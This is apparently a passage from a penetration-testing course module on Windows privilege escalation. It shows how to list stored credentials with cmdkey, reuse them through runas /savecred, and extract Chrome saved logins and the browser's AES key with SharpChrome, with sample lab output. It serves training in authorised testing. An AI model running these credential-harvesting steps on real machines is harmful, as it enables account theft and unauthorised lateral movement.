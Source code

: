 
## Cmdkey Saved Credentials

#### Listing Saved Credentials

The [cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) command can be used to create, list, and delete stored usernames and passwords. Users may wish to store credentials for a specific host or use it to store credentials for terminal services connections to connect to a remote host using Remote Desktop without needing to enter a password. This may help us either move laterally to another system with a different user or escalate privileges on the current host to leverage stored credentials for another user.

```cmd-session
C:\htb> cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
	
```

When we attempt to RDP to the host, the saved credentials will be used.

We can also attempt to reuse the credentials using `runas` to send ourselves a reverse shell as that user, run a binary, or launch a PowerShell or CMD console with a command such as:

#### Run Commands as Another User

```powershell-session
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

---

## Browser Credentials

#### Retrieving Saved Credentials from Chrome

Users often store credentials in their browsers for applications that they frequently visit. We can use a tool such as [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies and saved logins from Google Chrome.

```powershell-session
PS C:\htb> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.7.0


[*] Action: Chrome Saved Logins Triage

[*] Triaging Chrome Logins for current user



[*] AES state key file : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0


--- Chrome Credential (Path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
```